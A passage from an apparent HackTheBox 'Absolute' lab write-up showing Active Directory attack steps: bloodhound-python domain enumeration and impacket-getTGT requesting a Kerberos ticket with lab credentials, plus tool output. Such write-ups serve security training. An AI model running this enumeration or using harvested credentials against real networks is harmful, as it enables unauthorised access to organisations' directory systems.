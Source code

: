 

```bash
❯ bloodhound-python -c All -ns 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --auth-method kerberos -d absolute.htb --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: absolute.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 18 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Done in 00M 13S
INFO: Compressing output into 20250122021922_bloodhound.zip

```





<figure><img src="../../../.gitbook/assets/4006_vmware_2blj3OH6f1.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (226).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (227).png" alt=""><figcaption></figcaption></figure>



```bash
❯ impacket-getTGT absolute.htb/m.lovegod:'AbsoluteLDAP2022!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.lovegod.ccache
❯ export KRB5CCNAME=$(pwd)/m.lovegod.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/m.lovegod.ccache
Default principal: m.lovegod@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 05:08:17  22/01/25 09:08:17  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 22/01/25 09:08:17, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```
